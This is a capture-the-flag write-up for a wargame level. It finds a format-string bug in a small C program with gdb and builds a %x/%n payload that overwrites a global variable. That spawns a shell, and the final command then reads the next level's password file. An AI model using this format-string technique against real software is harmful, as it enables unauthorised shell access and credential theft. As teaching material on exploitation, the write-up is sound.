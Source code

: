 # Level 3

Here, we have a program reading on stdin again. But by decompiling the code, whe can see a fgets function reading 512 bytes and storing them in a buffer of 520. So... no overflow possible here.

```c
int m;

void v(void) {
  char buff [520];
  
  fgets(buff, 512, stdin);
  printf(buff);
  if (m == 64) {
    fwrite("Wait what?!\n", 1, 12, stdout);
    system("/bin/sh");
  }
  return;
}
```
**We can already see our goal here, the if statement with "m" and the value 64. If we can make "m" equal to 64, we win.** 

One line is in fact a little bit weird:
```c
printf(buff)
````
No format? Only one argument? Why?

Let's introduce our new exploit the **Format string attack**. This attack use this missuse of printf functions to interact with the memory. More precisely, we can use thoses threes format to play:
 - "%x" Read data from the stack
 - "%s" Read character strings from the memory
 - "%n" Write an integer to locations in the memory

An example:
```c
$ ./level3 <<< %d
512
```
Here, printf return the first value in the memory so it's working!

Let's try to modify "m" with this. For this we need the address of "m":
```sh
$ gdb -q ./level3 
Reading symbols from /home/user/level3/level3...(no debugging symbols found)...done.
(gdb) b v
Breakpoint 1 at 0x80484ad
(gdb) r
Starting program: /home/user/level3/level3 

Breakpoint 1, 0x080484ad in v ()
(gdb) dissas
Undefined command: "dissas".  Try "help".
(gdb) disass
Dump of assembler code for function v:
	...
	0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
	0x080484cc <+40>:	lea    -0x208(%ebp),%eax
	0x080484d2 <+46>:	mov    %eax,(%esp)
	0x080484d5 <+49>:	call   0x8048390 <printf@plt>
	0x080484da <+54>:	mov    0x804988c,%eax
	0x080484df <+59>:	cmp    $0x40,%eax
	0x080484e2 <+62>:	jne    0x8048518 <v+116>
	...   
End of assembler dump.
```
We can see that 64 (0x40) is compared with the address 0x804988c, it's "m".

To modify the value, we have to use "%n" and we can play with "%x" and the field width to increment the value.

```sh
(gdb) run <<< $(printf "\x8c\x98\x04\x08")%x%x%x%n
(gdb) x/d 0x804988c
0x804988c <m>:  23
(gdb) run <<< $(printf "\x8c\x98\x04\x08")%x%x%100x%n
(gdb) x/d 0x804988c
0x804988c <m>:	115
...
(gdb) run <<< $(printf "\x8c\x98\x04\x08")%x%x%80x%n
(gdb) x/d 0x804988c
0x804988c <m>:	95
...
(gdb) run <<< $(printf "\x8c\x98\x04\x08")%x%x%50x%n
(gdb) x/d 0x804988c
0x804988c <m>:	65
...
(gdb) run <<< $(printf "\x8c\x98\x04\x08")%x%x%49x%n
(gdb) x/d 0x804988c
0x804988c <m>:	64
(gdb) c
Continuing.
Wait what?!
```
As we saw, "m" is now equal to 64 and we run the shell. So the final command is: 
```sh
$ (echo $(printf "\x8c\x98\x04\x08")%x%x%49x%n; cat) | ./level3 
�200b7fd1ac0                                         b7ff37d0
Wait what?!
whoami
level4
cat /home/user/level4/.pass
```

